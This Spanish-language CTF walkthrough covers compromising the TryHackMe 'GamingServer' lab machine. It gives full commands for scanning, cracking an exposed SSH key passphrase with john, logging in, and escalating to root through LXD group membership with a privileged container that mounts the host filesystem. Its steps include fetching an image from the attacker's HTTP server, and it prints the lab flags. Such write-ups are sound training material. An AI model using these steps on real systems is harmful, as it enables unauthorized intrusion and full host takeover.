








## **Tutorial: Explotación de la máquina GamingServer en TryHackMe**


## 1. Conexión a la VPN de TryHackMe

Para poder acceder a las máquinas del laboratorio es necesario conectarse primero a la VPN de TryHackMe. Esto crea un túnel cifrado entre la máquina Kali y la red privada del laboratorio.

### 1.1 Conexión mediante OpenVPN

Desde la terminal de Kali ejecutamos el siguiente comando utilizando el archivo .ovpn descargado desde la plataforma:

```bash
sudo openvpn /home/nerea/Descargas/eu-central-1-nereacandonramos-regular.ovpn
```
Si este no funciona, probar el west-3-
Si la conexión se establece correctamente aparecerá el mensaje:

```bash
Initialization Sequence Completed
```

Esto indica que la VPN se ha establecido correctamente.

### 1.2 Verificación de la conexión

Para comprobar que la conexión está activa ejecutamos:

```bash
ip a
```

Esto mostrará una interfaz de red llamada tun0, que corresponde a la conexión VPN con TryHackMe.

## 2. Escaneo de puertos con Nmap

El siguiente paso consiste en identificar los servicios expuestos en la máquina objetivo utilizando Nmap, una herramienta fundamental para el reconocimiento en auditorías de seguridad.

Se ejecuta el siguiente comando:

Escaneo completo de puertos:

```bash
nmap -sC -sV -p- -Pn 10.130.139.192
```


Explicación del comando
-sC → ejecuta scripts básicos de enumeración (NSE)
-sV → detecta versiones de los servicios
-p- → escanea todos los puertos (1–65535)
-Pn → omite el descubrimiento de host (no usa ping)


## 3. Enumeración de servicios

El escaneo de puertos muestra que la máquina tiene dos servicios principales expuestos:

```bash
22/tcp → SSH (OpenSSH 7.6p1)
80/tcp → HTTP (Apache 2.4.29)
```

Análisis inicial
SSH está activo, pero normalmente requiere credenciales → no es el primer vector.
El servicio más interesante es HTTP (puerto 80).
El título de la web es:

House of danak

Esto sugiere que el punto de entrada será la web.

## 4. Enumeración web

Se accede al servidor web:

```bash
http://10.130.139.192
```


### 4.1 Inspección inicial

Se revisa manualmente la página web y su código fuente.

```bash
Click derecho → Ver código fuente
```

Análisis del código fuente

 Revisé el código fuente de la página y encontré este comentario al final:

```bash
 <!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```


 Esto nos indica johnque podría ser un nombre de usuario válido, útil para iniciar sesión o acceder mediante SSH más adelante.


 ## 5. Enumeración de directorios

Se realiza gobuster para descubrir rutas ocultas:

```bash
gobuster dir -u http://10.130.139.192/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


El escaneo con Gobuster revela dos directorios interesantes:

```bash
uploads/
secret/
```

## 6. Análisis del directorio /secret

Se accede a la ruta:

```bash
http://10.130.139.192/uploads/
```


Archivos encontrados:

- dict.lst– Una pequeña lista de palabras, probablemente un archivo de contraseñas
- manifesto.txt– Podría tratarse de información de relleno o de contexto.
- meme.jpg– Imagen irrelevante

Ahora accedemos a la otra ruta:

```bash
http://10.130.139.192/secret/
```


La visita http://10.130.139.192/secret/ también reveló un directorio abierto con:

- secretKey– Un archivo que claramente parece una clave privada RSA

Si esta es una clave privada válida y johnel nombre de usuario es correcto (como se insinúa en el comentario HTML), ahora podemos tener las credenciales para iniciar sesión en SSH (puerto 22).


## 7. Descarga de la clave SSH

Entro al archivo secretKey desde el directorio vulnerable:

```bash
http://10.130.139.192/uploads/secretKey
```


Copié todo el texto del archivo.


## 8. Convertir la clave para John

Guárdala en un archivo:

```bash
nano id_key
```


(pega todo lo que has copiado)


## 9. Extraer hash

```bash
ssh2john id_key > hash.txt
```

## 10. Crackear la passphrase

Vamos a mirar una lista de contraseña para ver con cual cuadra

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


## 11. Ver la contraseña

```bash
john --show hash.txt
```

El resultado es:

```bash
Contraseña: letmein
```

## 11. Acceso por SSH (uso de clave privada)

Ya sabemos por el análisis anterior:

Usuario probable: john
Tenemos una clave: letmein


### 11.1 Dar permisos correctos

SSH es muy estricto con esto:

```bash
chmod 600 id_key
```

### 11.2 Conectarse por SSH

Ahora intentamos login:

```bash
ssh -i id_key john@10.130.139.192
```


Cuando lo pida:

Enter passphrase for key:

```bash
letmein
```

### 11.3 Captura la bandera del usuario

Tras iniciar sesión correctamente en la máquina de destino como johnusuario, busqué la bandera de usuario.

Utilicé el siguiente comando:

```bash
ls  
cat user.txt
```


Bandera de usuario:

```bash
THM{a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e}
```

## 12. Escalada de privilegios de root a través de LXD

Tras capturar la bandera del usuario, comprobé mis privilegios:

```bash
id
```

Resultado:

```bash
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Pertenecer al grupo lxd te permite manipular los contenedores del sistema y, potencialmente, obtener privilegios de administrador.

Los miembros lxdpueden crear contenedores privilegiados y montar el sistema de archivos raíz del host en ellos. A partir de ahí, obtener acceso de administrador al host resulta muy sencillo.


###  12.1 Preparar la imagen de Alpine (en la máquina del atacante)

En mi propio ordenador , utilicé el lxd-alpine-builderscript para crear una imagen de Alpine Linux:

```bash
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine 
cd lxd-alpine-builder 
ls
```


### 12.2 Preparación del entorno LXD

Una vez descargado el script, lo configuré para generar la imagen Alpine necesaria para el exploit:

```bash
chmod +x build-alpine
sudo ./build-alpine
```


Durante la ejecución, el script descargó los componentes necesarios de Alpine Linux y generó una imagen comprimida lista para ser importada en LXD.


### 12.3 Resultado de la generación de la imagen

Tras la ejecución correcta, se obtuvo el siguiente archivo:

```bash
alpine-v3.xx-x86_64.tar.gz
```

Este archivo es la imagen que se utilizará para crear el contenedor privilegiado.


### 12.4 Inicio del servidor HTTP en la máquina atacante

Para transferir la imagen a la máquina víctima, se levantó un servidor web en Kali:

```bash
python3 -m http.server 8000
```


Esto permite que la máquina objetivo pueda descargar el archivo mediante HTTP.


### 12.5 Descarga de la imagen en la máquina víctima

Desde la sesión SSH del usuario john, se descargó la imagen:

```bash
wget http://192.168.142.53:8000/alpine-v3.23-x86_64-20260414_1800.tar.gz
```


### 12.6 Importación de la imagen en LXD

Una vez descargada la imagen en la máquina víctima, el siguiente paso es importarla en LXD:

```bash
lxc image import alpine-v3.23-x86_64-20260414_1800.tar.gz --alias myimage
```


Esto registra la imagen Alpine dentro del sistema LXD con el nombre myimage.


### 12.7 Creación del contenedor privilegiado

Ahora se crea un contenedor usando la imagen importada:

```bash
lxc init myimage ignite -c security.privileged=true
```

Explicación:

- ignite → nombre del contenedor
- security.privileged=true → permite acceso total al sistema host


### 12.8 Montaje del sistema de archivos del host

Se añade el sistema raíz del host dentro del contenedor:

```bash
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

Esto monta el sistema real del servidor en:

```bash
/mnt/root
```

### 12.9 Inicio del contenedor

```bash
lxc start ignite
```

### 12.10 Acceso al contenedor

```bash
lxc exec ignite /bin/sh
```


Ahora obtenemos una shell dentro del contenedor con privilegios elevados.


### 12.11 Acceso al sistema del host

Dentro del contenedor, accedemos al sistema real:

```bash
whoami
cd /mnt/root
ls
cd root
```




### 12.12 Captura de la flag de root

Finalmente, leemos la bandera de root:

```bash
cat root.txt
```


Resultado:
THM{2e337b8c9f3aff0c2b3e8d4e6a7c88fc}